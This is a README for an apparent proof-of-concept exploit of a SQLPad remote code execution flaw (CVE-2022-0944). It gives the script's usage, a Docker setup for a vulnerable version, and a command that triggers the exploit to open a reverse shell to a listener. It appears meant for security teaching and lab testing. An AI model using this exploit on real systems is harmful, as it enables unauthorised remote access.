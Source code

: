 # CVE-2022-0944

A proof of concept exploit for [SQLPad RCE (CVE-2022-0944)](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb)

## Usage

```
usage: main.py [-h] url lhost lport [username] [password]

positional arguments:
  url         URL to SQLPad
  lhost       Listener host address for reverse shell
  lport       Listener port for reverse shell
  username    login username (optional)
  password    login password (optional)

options:
  -h, --help  show this help message and exit
```

**Example:**

```bash
# install requirements
pip install -r requirements.txt

# start sqlpad docker container
docker run -p 3000:3000 --name sqlpad -d --env SQLPAD_ADMIN=admin --env SQLPAD_ADMIN_PASSWORD=admin sqlpad/sqlpad:6.10.0

# trigger exploit
./main.py http://localhost:3000 127.0.0.1 1337 admin admin
```

# Disclaimer

This repository contains code and tools that are intended solely for educational purposes, specifically for use in cybersecurity courses and learning environments. The author of this code assumes no responsibility for any consequences arising from the use, misuse, or modification of this code. The code is provided "as is" without any warranty, either express or implied, including but not limited to the implied warranties of merchantability or fitness for a particular purpose.
